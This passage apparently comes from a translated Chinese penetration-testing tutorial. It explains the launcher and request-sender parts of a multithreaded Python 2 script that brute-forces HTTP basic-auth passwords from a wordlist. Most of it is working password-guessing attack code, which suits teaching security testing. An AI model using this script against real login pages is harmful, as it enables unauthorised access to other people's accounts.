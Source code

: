 3.  然后，在`launcher_thread`中，我们有一个`while`循环，该循环将继续，直到数组密码中没有任何单词：

```py
def launcher_thread(names, th, username, url):
    global i
    i = []
    i.append(0)
    while len(names):
        if hit == "1":
            try:
                if i[0] < th:
                    n = names.pop(0)
                    i[0] = i[0] + 1
                    thread = request_performer(n, username, url)
                    thread.start()

            except KeyboardInterrupt:
                print "Brute forcer interrupted by user. Finishing attack.."
                sys.exit()
            thread.join()
        else:
            sys.exit()
    return
```

因此，对于数组中的每个单词，我们做一个`pop`，然后用`n`、`username`和`url`实例化`request_performer`类。

4.  在`request_performer`中，我们为对象定义了一些属性，然后执行 GET 请求：

```py
class request_performer(Thread):
    def __init__(self, name, user, url):
        Thread.__init__(self)
        self.password = name.split("\n")[0]
        self.username = user
        self.url = url
        print "-" + self.password + "-"

    def run(self):
        global hit
        if hit == "1":
            try:
                r = requests.get(self.url, auth=(self.username, self.password))
                if r.status_code == 200:
                    hit = "0"
                    print "[+] Password found - " + colored(self.password, 'green') + " - !!!\r"
                    sys.exit()
                else:
                    print "Not valid " + self.password
                    i[0] = i[0] - 1 # Here we remove one thread from the counter
            except Exception, e:
                print e
```
